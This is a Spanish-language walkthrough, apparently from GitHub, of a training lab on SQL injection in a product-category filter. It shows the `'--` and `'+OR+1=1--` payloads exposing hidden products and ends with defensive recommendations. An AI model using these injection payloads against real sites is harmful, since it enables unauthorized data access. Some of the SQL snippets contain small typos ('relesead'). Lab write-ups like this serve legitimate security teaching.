 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)

---

Tenemos un sitio web para realizar compras de productos:
![image](https://github.com/user-attachments/assets/e7f1d850-f540-4cfc-9495-0bae72bb061e)

Podemos buscar productos y realizar filtros según su categoría, probamos filtrar por `Gifts`:
![image](https://github.com/user-attachments/assets/a82cdd53-a451-41de-8bbc-b3da6aedd74f)

Nosotros sabemos que la consulta por detrás es la siguiente:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Y sabemos que el valor de `category` lo toma del parámetro de la url `?category=Gifts`.

Procedemos a intentar romper la consulta, añadiendo el caracter `'`, lo cual cerraría la consulta de la siguiente forma:
```sql
SELECT * FROM products WHERE category = 'Gifts'' AND relesead = 1
```
La última parte de la consulta (`' AND relesead = 1`) queda por fuera y podría causar un error de sintaxis:
![image](https://github.com/user-attachments/assets/b8469c86-9f5b-422f-9eda-9ed3f7cc83d5)

Este es el primer indicador de que podría haber inyección SQL.


Lo que hacemos ahora es añadir el siguiente payload: `'--`
Por lo cual la consulta completa sería:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND relesead = 1
```
Que es lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'
```


![image](https://github.com/user-attachments/assets/4540d5d6-30f7-45fe-8550-40f44392e647)

Como vemos se realizó la consulta, lo cual confirmamos que hay inyección SQL.

Procedemos a resolver el lab inyectando el siguiente payload: `'+OR+1=1--`

Por lo que la cadena de consulta quedaría:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND relesead = 1
```
Que sería lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1
```

Lo cual se traduce en `mostrame todas las filas de la tabla products donde la categoria es Gifts o donde 1=1`. Por lo que mostrará todos los productos:

![image](https://github.com/user-attachments/assets/acec4257-02e1-4607-a0c5-b9b481997939)

---

## ✅ Conclusión

Se identificó y explotó exitosamente una vulnerabilidad de **SQL Injection** en el parámetro `category`, específicamente en la cláusula `WHERE` de una consulta SQL.

La inyección permitió alterar la lógica original (`AND released = 1`) para revelar productos ocultos que normalmente no deberían mostrarse, cumpliendo el objetivo del laboratorio.

## 🛡️ Recomendaciones

- Utilizar consultas parametrizadas (prepared statements) para evitar la inyección directa de datos del usuario en sentencias SQL.
- Validar y sanear adecuadamente toda entrada controlada por el usuario.
- No confiar en valores provenientes de la URL sin una capa de validación en el servidor.

## 📚 Lecciones aprendidas

- El caracter `'` puede ser una poderosa herramienta para confirmar inyecciones SQL.
- Comentar la parte restante de una consulta (`--`) es una técnica común para forzar condiciones maliciosas.
- Las cláusulas `OR 1=1` permiten forzar evaluaciones verdaderas y acceder a datos no permitidos.





